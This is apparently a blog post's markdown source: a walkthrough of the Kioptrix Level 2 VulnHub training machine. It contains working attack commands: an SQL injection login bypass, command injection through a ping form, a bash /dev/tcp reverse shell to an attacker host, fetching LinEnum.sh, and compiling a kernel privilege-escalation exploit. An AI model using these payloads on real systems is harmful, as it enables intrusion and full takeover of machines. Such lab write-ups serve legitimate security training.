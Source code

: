 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

`' or '1'='1`

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened pipe id ( | id) which proves successful.
 
 ![Ping RCE check](/images/KioptrixL2/PingID.JPG)
 
### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using `python -c 'import pty; pty.spawn("/bin/sh")'` from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
### Privilege Escalation
 
I started a python web server `python3 -m http.server` in my directory containing LinEnum.sh

`cd /tmp` and `wget http://x.x.x.49:8000/LinEnum.sh` to get the script onto the target and `chmod 700 LinEnum.sh` to be able to run it.

This gets us important system information such as CentOS release 4.5 (Final) and Linux version 2.6.9-55

`searchsploit linux kernel 2.6 centos` suggests we can use the `9545.c` exploit

To upload to the target machine, we use the same python webserver method as before

`gcc -o exploit 9545.c`

`chmod 700 exploit`

`./exploit`

`uid=0(root) gid=0(root) groups=48(apache)` and we are root
